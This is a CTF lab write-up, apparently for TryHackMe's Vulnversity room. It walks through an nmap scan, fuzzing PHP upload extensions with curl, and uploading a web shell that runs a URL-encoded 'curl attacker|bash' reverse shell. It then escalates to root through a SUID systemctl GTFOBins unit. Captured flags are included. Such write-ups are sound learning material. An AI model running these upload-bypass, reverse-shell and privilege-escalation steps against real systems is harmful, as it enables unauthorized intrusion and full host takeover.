




#tryhackme #windows #nmap #feroxbuster #gobuster #payloadallthethings #Arbitrary-File-Upload #bypass-file-upload #suid #gtfobin 

## Reconnaissance

### Scan the box; how many ports are open?

- Use `--min-rate` for fastest scan on port enumeration only
- Use `-n` to not resolve dns to be faster (about 2 second...)

```bash
┌──(kali㉿kali)-[~/thm/valleype]
└─$ sudo nmap -p- --min-rate 10000 -n -vv 10.10.60.122
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-12 11:50 EDT
Initiating Ping Scan at 11:50
Scanning 10.10.60.122 [4 ports]
Completed Ping Scan at 11:50, 0.32s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:50
Completed Parallel DNS resolution of 1 host. at 11:50, 0.01s elapsed
Initiating SYN Stealth Scan at 11:50
Scanning 10.10.60.122 [65535 ports]
Discovered open port 21/tcp on 10.10.60.122
Discovered open port 445/tcp on 10.10.60.122
Discovered open port 139/tcp on 10.10.60.122
Discovered open port 22/tcp on 10.10.60.122
Discovered open port 3333/tcp on 10.10.60.122
Discovered open port 3128/tcp on 10.10.60.122
Completed SYN Stealth Scan at 11:51, 14.85s elapsed (65535 total ports)
Nmap scan report for 10.10.60.122
Host is up, received reset ttl 63 (0.29s latency).
Scanned at 2023-06-12 11:50:58 EDT for 15s
Not shown: 65347 closed tcp ports (reset), 182 filtered tcp ports (no-response)
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 63
22/tcp   open  ssh          syn-ack ttl 63
139/tcp  open  netbios-ssn  syn-ack ttl 63
445/tcp  open  microsoft-ds syn-ack ttl 63
3128/tcp open  squid-http   syn-ack ttl 63
3333/tcp open  dec-notes    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.34 seconds
           Raw packets sent: 139038 (6.118MB) | Rcvd: 70243 (2.810MB)
```

> 6

### What version of the squid proxy is running on the machine?

```bash
┌──(kali㉿kali)-[~/thm/valleype]
└─$ sudo nmap -sVC -p 21,22,139,445,3128,3333 -vv 10.10.60.122
PORT     STATE SERVICE        REASON         VERSION
21/tcp   open  ftp            syn-ack ttl 63 vsftpd 3.0.3
22/tcp   open  ssh            syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
139/tcp  open  netbios-ssn    syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  Fetbios- 3(V syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy     syn-ack ttl 63 Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http           syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time:
|   date: 2023-06-12T15:56:18
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 65382/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 35493/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 20142/udp): CLEAN (Failed to receive data)
|   Check 4 (port 47321/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1h20m04s, deviation: 2h18m34s, median: 3s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNUNIVERSITY<00>   Flags: <unique><active>
|   VULNUNIVERSITY<03>   Flags: <unique><active>
|   VULNUNIVERSITY<20>   Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2023-06-12T11:56:18-04:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
```

> 3.5.12

### How many ports will Nmap scan if the flag -p-400 was used?

> 400

### What is the most likely operating system this machine is running?

> Ubuntu

### What port is the web server running on?

> 3333

### What is the flag for enabling verbose mode using Nmap?

> -v

## Locating directories using Gobuster

Pass, already did a lot relevant writeups

### Feroxbuster

Feroxbuster will bust recrusively and show directory listing compare to gobuster

```bash
feroxbuster -u http://10.10.60.122:3333 --burp
```



### Gobuster

```bash
gobuster dir -u http://10.10.60.122:3333 -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 100 -e -r
```

## Compromise the Webserver

Now that you have found a form to upload files, we can leverage this to upload and execute our payload, which will lead to compromising the web server.

### Fuzz php extensions for file upload bypass

make sure **payloadsallthethings** is cloned

```bsah
┌──(kali㉿kali)-[/opt/sectools/cheatsheet]
└─$ git clone https://github.com/swisskyrepo/PayloadsAllTheThings/
```

or install from apt (Will only contain payloads and not up to date)

will be installed at `/usr/share/payloadsallthethings`

```bash
sudo apt install payloadsallthethings -y
```

```bash
┌──(kali㉿kali)-[/usr/share/payloadsallthethings/Upload Insecure Files/Extension PHP]
└─$ ls
 phpinfo.jpg.php   phpinfo.php3   phpinfo.php7   phpinfo.phtml          shell.jpg.php          shell.phar   shell.php4   shell.phpt    shell.png.php
 phpinfo.phar      phpinfo.php4   phpinfo.phpt  'shell.gif?shell.php'  'shell.jpg?shell.php'   shell.php    shell.php5   shell.pht    'shell.png?shell.php'
 phpinfo.php       phpinfo.php5   phpinfo.pht    shell.jpeg.php         shell.pgif             shell.php3   shell.php7   shell.phtml
```

### Use curl to automate file upload

> Alternative way is to use brup suite using wordlist :: `/opt/sectools/cheatsheet/PayloadsAllTheThings/Upload Insecure Files/Extension PHP/extensions.lst`

```bash
┌──(kali㉿kali)-[/usr/share/payloadsallthethings/Upload Insecure Files/Extension PHP]
└─$ for FILE in *; do string=$(curl -s -X POST -F file=@$FILE http://10.10.60.122:3333/internal/index.php); if [[ $string != *"Extension not allowed"* ]]; then echo "Found: $FILE" ;fi ; done
Found: phpinfo.phtml
Found: shell.phtml
```

Host reverse shell script ([[Reverse Shell#Reverse Shell as service]])

```bash
┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ ls
index.html

┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ python3 -m http.server 80
```

Url encode `curl 10.11.19.145|bash` with burp



Send reverse shell

```bash
┌──(kali㉿kali)-[/usr/share/payloadsallthethings/Upload Insecure Files/Extension PHP]
└─$ curl -X GET "http://10.10.60.122:3333/internal/uploads/shell.phtml?cmd=%63%75%72%6c%20%31%30%2e%31%31%2e%31%39%2e%31%34%35%7c%62%61%73%68"
```

Get reverse shell

```bash
┌──(kali㉿kali)-[~/thm]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.60.122] 55362
bash: cannot set terminal process group (1364): Inappropriate ioctl for device
bash: no job control in this shell

www-data@vulnuniversity:/var/www/html/internal/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@vulnuniversity:/var/www/html/internal/uploads$ cat /etc/passwd|grep sh$
<r/www/html/internal/uploads$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
bill:x:1000:1000:,,,:/home/bill:/bin/bash

www-data@vulnuniversity:/var/www/html/internal/uploads$ cd /home/bill
cls
d /home/bill

www-data@vulnuniversity:/home/bill$ ls
user.txt

www-data@vulnuniversity:/home/bill$ cat user.txt
cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```

## Privilege Escalation

### SUID Bits

```bash
www-data@vulnuniversity:/home/bill$ find / -type f -perm -04000 -ls 2>/dev/null
<me/bill$ find / -type f -perm -04000 -ls 2>/dev/null
   402892     36 -rwsr-xr-x   1 root     root        32944 May 16  2017 /usr/bin/newuidmap
   393361     52 -rwsr-xr-x   1 root     root        49584 May 16  2017 /usr/bin/chfn
   402893     36 -rwsr-xr-x   1 root     root        32944 May 16  2017 /usr/bin/newgidmap
   393585    136 -rwsr-xr-x   1 root     root       136808 Jul  4  2017 /usr/bin/sudo
   393363     40 -rwsr-xr-x   1 root     root        40432 May 16  2017 /usr/bin/chsh
   393501     56 -rwsr-xr-x   1 root     root        54256 May 16  2017 /usr/bin/passwd
   406711     24 -rwsr-xr-x   1 root     root        23376 Jan 15  2019 /usr/bin/pkexec
   393490     40 -rwsr-xr-x   1 root     root        39904 May 16  2017 /usr/bin/newgrp
   393424     76 -rwsr-xr-x   1 root     root        75304 May 16  2017 /usr/bin/gpasswd
   405497     52 -rwsr-sr-x   1 daemon   daemon      51464 Jan 14  2016 /usr/bin/at
   406941    100 -rwsr-sr-x   1 root     root        98440 Jan 29  2019 /usr/lib/snapd/snap-confine
   406710     16 -rwsr-xr-x   1 root     root        14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   405145    420 -rwsr-xr-x   1 root     root       428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
   393687     12 -rwsr-xr-x   1 root     root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   666971     76 -rwsr-xr-x   1 root     root        76408 Jul 17  2019 /usr/lib/squid/pinger
   402037     44 -rwsr-xr--   1 root     messagebus    42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   402829     40 -rwsr-xr-x   1 root     root          38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   131164     40 -rwsr-xr-x   1 root     root          40128 May 16  2017 /bin/su
   133166    140 -rwsr-xr-x   1 root     root         142032 Jan 28  2017 /bin/ntfs-3g
   131133     40 -rwsr-xr-x   1 root     root          40152 May 16  2018 /bin/mount
   131148     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
   131182     28 -rwsr-xr-x   1 root     root          27608 May 16  2018 /bin/umount
   131166    648 -rwsr-xr-x   1 root     root         659856 Feb 13  2019 /bin/systemctl
   131147     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
   133163     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
   405750     36 -rwsr-xr-x   1 root     root          35600 Mar  6  2017 /sbin/mount.cifs
```

According to last edit time and its name, `/bin/systemctl` stands out

Search on **GTFOBins**





```bash
www-data@vulnuniversity:/dev/shm$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<v/shm$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/dev/shm$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~/thm]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

www-data@vulnuniversity:/dev/shm$
www-data@vulnuniversity:/dev/shm$ TF=$(mktemp).service
www-data@vulnuniversity:/dev/shm$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/dev/shm$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.RaN1EzZW4A.service to /tmp/tmp.RaN1EzZW4A.service.
www-data@vulnuniversity:/dev/shm$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.RaN1EzZW4A.service to /tmp/tmp.RaN1EzZW4A.service.
www-data@vulnuniversity:/dev/shm$ /bin/bash -p
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3# cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```